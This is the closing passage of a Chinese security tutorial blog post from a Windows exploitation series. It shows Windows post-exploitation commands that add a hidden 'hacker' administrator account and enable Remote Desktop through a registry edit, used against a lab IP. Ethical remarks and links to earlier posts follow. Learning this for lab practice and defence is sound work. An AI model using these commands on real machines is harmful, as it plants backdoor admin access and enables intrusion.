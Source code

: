 ```

# 深度提权及远程连接操作
net user hacker 123456 /add 
net localgroup administrators hacker /add
echo reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 00000000 /f > C:\WINDOWS\system32\3389.bat && call 3389.bat
netstat -an
rdesktop 192.168.44.135
```

真的感觉自己技术好菜，要学的知识好多。作为初学者，我们可能有差距，不论你之前是什么方向，是什么工作，是什么学历，是大学大专中专，亦或是高中初中，只要你喜欢安全，喜欢渗透，就朝着这个目标去努力吧！有差距不可怕，我们需要的是去缩小差距，去战斗，况且这个学习的历程真的很美，安全真的有意思。但切勿去做坏事，我们需要的是白帽子，是维护我们的网络，安全路上共勉。

前文回顾（下面的超链接可以点击喔）：

*   [[系统安全] 一. 什么是逆向分析、逆向分析应用及经典扫雷游戏逆向](http://mp.weixin.qq.com/s?__biz=Mzg5MTM5ODU2Mg==&mid=2247484670&idx=1&sn=c31b15b73f27a7ce44ae1350e7f708a2&chksm=cfccb433f8bb3d25c25f044caac29d358fe686602011d8e4cbdc504e3a587e756215ce051819&scene=21#wechat_redirect)
    
*   [[系统安全] 二. 如何学好逆向分析及吕布传游戏逆向案例](http://mp.weixin.qq.com/s?__biz=Mzg5MTM5ODU2Mg==&mid=2247484756&idx=1&sn=ef95ff95474c51fa2bd4b9b4847ebb54&chksm=cfccb599f8bb3c8fa4852416cff6695fc8dcc9aadb3295c7249c12c03cad4c146a93e6250d56&scene=21#wechat_redirect)
    
*   [[系统安全] 三. IDA Pro 反汇编工具初识及逆向工程解密实战](http://mp.weixin.qq.com/s?__biz=Mzg5MTM5ODU2Mg==&mid=2247484812&idx=1&sn=9b77853a5b9da0f7a688e592dba3ddba&chksm=cfccb541f8bb3c57faffc7661a452238debe09cc7a57ae2d9e9d835d6520ee441bfd9d5ad119&scene=21#wechat_redirect)
    
*   [[系统安全] 四. OllyDbg 动态分析工具基础用法及 Crakeme 逆向破解](http://mp.weixin.qq.com/s?__biz=Mzg5MTM5ODU2Mg==&mid=2247484950&idx=1&sn=07d8f0b20f599586ef06035354b14630&chksm=cfccb6dbf8bb3fcd6d2efcc7b6757fabd8015d86f43e3bc8ae6cb9367d19492aec881374fca2&scene=21#wechat_redirect)
    
*   [[系统安全] 五. OllyDbg 和 Cheat Engine 工具逆向分析植物大战僵尸游戏](http://mp.weixin.qq.com/s?__biz=Mzg5MTM5ODU2Mg==&mid=2247485043&idx=1&sn=028c702990f722d087c6c349fb34f5fb&chksm=cfccb6bef8bb3fa8882994f7412db6b769d382abbafa6b5b3bd1b5ae62dffa20e81c7170ecb4&scene=21#wechat_redirect)
    
*   [[系统安全] 六. 逆向分析之条件语句和循环语句源码还原及流程控制](http://mp.weixin.qq.com/s?__biz=Mzg5MTM5ODU2Mg==&mid=2247485936&idx=1&sn=b1c282021280bb24646a9bf7c0f1fa6a&chksm=cfccb93df8bb302b51ae1026dba4f8839a1c68690df0e8da3242e9c1ead0182bf6c34dd44ada&scene=21#wechat_redirect)
    
*   [[系统安全] 七. 逆向分析之 PE 病毒原理、C++ 实现文件加解密及 OllyDbg 逆向](http://mp.weixin.qq.com/s?__biz=Mzg5MTM5ODU2Mg==&mid=2247485996&idx=1&sn=d5e323f16ce0b3d88c678a1fc1848596&chksm=cfccbae1f8bb33f7fad687d17ba7c10312bf2d756e460217a5d60ef2af0c012336292918128d&scene=21#wechat_redirect)
    
*   [[系统安全] 八. Windows 漏洞利用之 CVE-2019-0708 复现及蓝屏攻击](http://mp.weixin.qq.com/s?__biz=Mzg5MTM5ODU2Mg==&mid=2247486024&idx=1&sn=102ace20c2b15f4e7a9f910b56b84aec&chksm=cfccba85f8bb33939ac7e99cae23d1b6da5a0db4e6ff8bc7535a77a46a4204855de41aa446dd&scene=21#wechat_redirect)
    
*   [系统安全] 九. Windows 漏洞利用之 MS08-067 远程代码执行漏洞复现及深度提权  
    

最后，真诚地感谢您关注 “娜璋之家” 公众号，也希望我的文章能陪伴你成长，希望在技术路上不断前行。文章如果对你有帮助、有感悟，就是对我最好的回报，且看且珍惜！再次感谢您的关注，也请帮忙宣传下 “娜璋之家”，哈哈~ 初来乍到，还请多多指教。顺便说一句，今天 CSDN 账号的粉丝破十万了，还挺开心的。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROZePZ27y7oibNu4BGibRAq4HydK4JWeQXtQMKibpFEkxNKClkDoicWRC06FHBp99ePyoKPGkOdPDezhg/640?wx_fmt=png)

(By: 娜璋之家 2020-12-17 夜于武汉)
